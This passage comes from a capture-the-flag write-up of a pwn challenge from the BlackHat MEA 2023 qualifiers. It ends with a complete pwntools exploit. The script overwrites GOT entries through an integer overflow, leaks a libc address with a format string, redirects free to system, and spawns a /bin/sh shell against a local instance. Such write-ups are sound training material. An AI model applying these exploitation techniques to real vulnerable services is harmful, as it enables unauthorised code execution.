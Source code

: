 Now, running this, we will firstly type the age i.e. `69` (nice). And then, we will type the name as `/bin/sh` and then we will get a shell.

![Alt text](/static/writeups/blackhatmea23-quals/image-13.png)

let's add this in our script as well:

```python
io.sendline("69")
io.sendline("/bin/sh")
```

Now, since we don't have access to the remote, let's setup the provided docker and run this exploit against the docker so that we can confirm that the exploit works remotely.

![Alt text](/static/writeups/blackhatmea23-quals/image-14.png)

Therefore, the final exploit is:

```python
#!/usr/bin/env python3

from pwn import *
import re

def overflow(addr: int):
	return str((addr << 32) + 1).encode()

context.terminal = ['tmux', 'splitw', '-h']
elf = context.binary = ELF("./profile_patched")
libc = elf.libc
io = process()
# io = remote("localhost", 5000)

log.info("Overwriting free(%#x) with main(%#x)" % (elf.got.free, elf.sym.main))
io.sendlineafter(b"Age: ", overflow(elf.got.free))
io.sendlineafter(b'Name: ', p32(elf.sym.main)[:3])

log.info("Overwriting exit(%#x) with main(%#x)" % (elf.got.exit, elf.sym.main))
io.sendlineafter(b"Age: ", overflow(elf.got.exit))
io.sendlineafter(b'Name: ', p32(elf.sym.main)[:3])

log.info("Overwriting free(%#x) with printf(%#x)" % (elf.got.free, elf.sym.printf))
io.sendlineafter(b"Age: ", overflow(elf.got.free))
io.sendlineafter(b'Name: ', p32(elf.sym.printf)[:3])

io.sendlineafter(b"Age: ", b"1")
io.sendlineafter(b"Name: ", b"HELLO|%3$p|")

data = io.recvuntil(b'|Age')
''' Getting only the address '''
leak = ''.join(re.findall("HELLO|(.*?)|Age", data.decode())).split('|')[-2]
leak = int(leak, 16)

libc.address = leak - 0x114a37
log.info("Libc base: %#x" % libc.address)

log.info("Overwriting free(%#x) with printf(%#x)" % (elf.got.free, elf.sym.printf))
io.sendlineafter(b": ", overflow(elf.got.free))
io.sendlineafter(b': ', p64(libc.sym["system"]))
io.sendline(b"69")
io.sendline(b"/bin/sh")
io.clean()
io.interactive()
```

Overall, very good challenge. I learned quite a new few neat tricks.
